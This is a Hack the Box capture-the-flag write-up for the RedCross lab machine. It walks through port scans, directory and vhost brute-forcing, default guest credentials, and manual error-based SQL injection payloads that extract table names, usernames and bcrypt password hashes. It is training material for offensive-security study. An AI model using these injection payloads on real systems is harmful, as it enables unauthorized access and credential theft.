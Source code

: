 # Hack the Box - RedCross
```CSS
Machine IP: 10.10.10.113 - Debian
```
## Reconnaisance
**Disover all open TCP ports**
```CSS
▶ nmap -Pn -sS -p- 10.10.10.113 -T4 --min-rate 1000 -oN nmap.surface
```

**Identify and scan running services on open ports**
```CSS
▶ sudo nmap -sV -sC -p 22,80,443 10.10.10.113 -oN nmap.deep 
```

---

## Application Mapping
![image](https://user-images.githubusercontent.com/83878909/229340988-396c149d-59a9-44df-8bb8-846e1a2e6f3b.png)

---

### Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb --wordlist /usr/share/wordlists/directories.txt --no-tls-validation --threads 25 --output intra-dir.out
```
![image](https://user-images.githubusercontent.com/83878909/229342980-9b448de6-1f32-417a-915b-d419ef3afc08.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/pages --wordlist Common-PHP-Filenames.txt --no-tls-validation --threads 25 --output intra-dir-pages.out 
```
![image](https://user-images.githubusercontent.com/83878909/229349757-4437bdf3-24b6-4b47-aa87-b392ff82f9da.png)

### Recursive Directory Brute-Force
```CSS
▶ gobuster dir --url https://intra.redcross.htb/documentation --wordlist directory-list-2.3-small.txt --no-tls-validation  --threads 25 --output intra-dir-pages.out --extensions pdf,txt 
```
![image](https://user-images.githubusercontent.com/83878909/229352633-afb50fcf-6b44-47a5-ad7d-327324b03a67.png)

---

## Virtual Host Brute-Force
```CSS
▶ wfuzz -H 'Host: FUZZ.redcross.htb' -u 'https://10.10.10.113' -w subdomains-top1million-5000.txt --hw 28
```
![image](https://user-images.githubusercontent.com/83878909/229351137-705a4132-e00b-45b5-b551-2f9a15acb448.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=login`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229352907-4b619112-09b4-4d94-bb9e-af767ebf9e9a.png)
![image](https://user-images.githubusercontent.com/83878909/229352924-ffbba2d9-f739-43a1-b7fa-98c14ad39f6e.png)

### SQLMap
```CSS
▶ sqlmap -r login-request.txt --force-ssl --dbms mysql --batch
```
**NOT VULNERABLE**

---

## Testing for Default Credentials on Login Page
- Logged in as Guest.
- Working credentials: `guest:guest`.
![image](https://user-images.githubusercontent.com/83878909/229353512-1722be64-2483-4f6e-aa8c-ee2d70a9786a.png)

---

## Testing for SQL Injection
  - URL: `https://intra.redcross.htb/?page=app`
  - Capture the request in BurpSuite and copy it to a text file using `Copy to file`.
  - Run `sqlmap` with the captured request. 
![image](https://user-images.githubusercontent.com/83878909/229353680-3ca112d1-6c52-48ae-a39c-107c461459c9.png)

### SQLMap
```CSS
▶ sqlmap -r userid-filter-request.txt -p o --force-ssl --dbms mysql --batch
```
## Manual Testing
  - Inject a `'` after the `o` parameter in the query.
![image](https://user-images.githubusercontent.com/83878909/229354603-aef8edb5-23e7-40b8-8785-f45b4515d517.png)
  - Extract: Version information.
  - Query: `') and extractvalue(0x0a,concat(0x0a,version()))-- -`
![image](https://user-images.githubusercontent.com/83878909/229354803-2b283325-cc0c-4561-bceb-4a890f1a6e1d.png)
 ## Database Name 
  - Extract: Database name.
  - Query: `') and extractvalue(0x0a,concat(0x0a,(select SCHEMA_NAME from INFORMATION_SCHEMA.SCHEMATA LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229359923-16a7107b-f98b-4294-8816-c672d7690dd6.png)
 ## Tables
  - Extract: Table names in the database `redcross`.
  - Query (Table 1): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 0,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360263-2a8cfc98-5fb3-4d9b-ab61-71836b0aae34.png)
  - Query (Table 2): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 1,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360434-d3ce41fa-586c-430a-b4f7-89549b2704e1.png)  
  - Query (Table 3): `') and extractvalue(0x0a,concat(0x0a,(select TABLE_NAME from INFORMATION_SCHEMA.TABLES where TABLE_SCHEMA like "redcross" LIMIT 2,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229360478-52232c71-b380-404e-a649-e99f5afa4759.png)
- Tables Found: messages, requests and users.

## Columns
  - Extract: Column names in the table `users`.
  - Query (Column 1): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364564-7f7b5fbe-e17b-4c60-b28e-e9c8b36a9e4a.png)
  - Query (Column 2): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364190-97f1d230-b4a4-45d8-900a-50c7707eb9fd.png)
  - Query (Column 3): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 2,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364271-a10fe1c5-7311-4d04-9c64-96141184e967.png)
  - Query (Column 4): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 3,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364423-652f1974-229c-49b6-a88c-e6d010103f4b.png)
  - Query (Column 5): `') and extractvalue(0x0a,concat(0x0a,(select COLUMN_NAME from INFORMATION_SCHEMA.COLUMNS where TABLE_NAME like "users" LIMIT 5,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229364516-a25c1339-8f3c-4d66-8691-251dab9d1289.png)
- Columns Found: id, username, password, mail and role.

## Usernames and Passwords
  - Extract: Usernames.
  - Query (User 1): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365056-4de5f991-d941-4753-9d09-866688fd02f2.png)
  - Query (User 2): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365145-8c217e2e-6269-46c4-a8c6-3eb3f79cc853.png)
  - Query (User 3): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365296-3ff1f74f-2180-4c29-8111-83d82aeaebf8.png)
  - Query (User 4): `') and extractvalue(0x0a,concat(0x0a,(select username from redcross.users LIMIT 1,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229365253-75ce97e6-d60d-4278-9881-9c0b5cc94add.png)
- Users Found:
  - Extract: Passwords.
  - Query: `') and extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 0,1)))-- -`.
![image](https://user-images.githubusercontent.com/83878909/229367688-1cf32661-e990-4ac2-b893-a29fb7746b17.png)
  - The above query returned the password for user `admin` however the passqord is not complete. The SQL query needs to be modified and then the password will be returned in two parts using two different queries.
  - Query1 : (User:admin - Password) - `') and extractvalue(0x0a,concat(0x0a,(select password from redcross.users LIMIT 0,1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229367688-1cf32661-e990-4ac2-b893-a29fb7746b17.png)
  - Query2 : (User:admin - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 0,1) FROM 30)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229368328-a49d9ad2-7b8d-4023-8cc5-c77205eccbd7.png)
  - Combining Both: `$2y$10$z/d5GiwZuFqjY1jRiKIPzuPX` + `Kt0SthLOyU438ajqRBtrb7ZADpwq.` = `$2y$10$z/d5GiwZuFqjY1jRiKIPzuKt0SthLOyU438ajqRBtrb7ZADpwq.`
  - Creds: `$2y$10$z/d5GiwZuFqjY1jRiKIPzuKt0SthLOyU438ajqRBtrb7ZADpwq.`

  - Query3 : (User:penelope - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 1,1) FROM 1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229368782-66383407-b465-43b7-9538-107ad69ded4b.png)
  - Query4 : (User:penelope - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 1,1) FROM 32)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229368975-08d51824-c0de-47d1-84a0-d2b1dab60ee5.png)
  - Combining Both: `$2y$10$tY9Y955kyFB37GnW4xrC0.J.` + `FzmkrQhxD..vKCQICvwOEgwfxqgAS` = `$2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS`
  - Creds: `$2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS`

  - Query5 : (User:charles - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 2,1) FROM 1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229369088-df1b99bb-715c-4880-818f-c49a98127147.png)
  - Query6 : (User:charles - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 2,1) FROM 32)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229369140-0567522b-90ad-4848-a589-9b313197cee5.png)
  - Creds: `$2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i`

  - Query5 : (User:tricia - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 3,1) FROM 1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229369626-20e036fb-d87c-470b-9d24-1df824df2309.png)
  - Query5 : (User:tricia - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 3,1) FROM 32)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229369689-f8f72344-686c-4c4f-bef1-f6b8098abe28.png)
  - Creds: `$2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r.`

  - Query5 : (User:guest - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 4,1) FROM 1)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229369765-07879956-6632-461d-b8d7-3545d0b1c519.png)
  - Query5 : (User:guest - Password) - `') and extractvalue(0x0a,concat(0x0a,substring((select password from redcross.users LIMIT 4,1) FROM 32)))-- -`
![image](https://user-images.githubusercontent.com/83878909/229369808-d6c53a4e-207e-45d9-ac72-c0ee947107e6.png)
  - Creds: `$2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi`
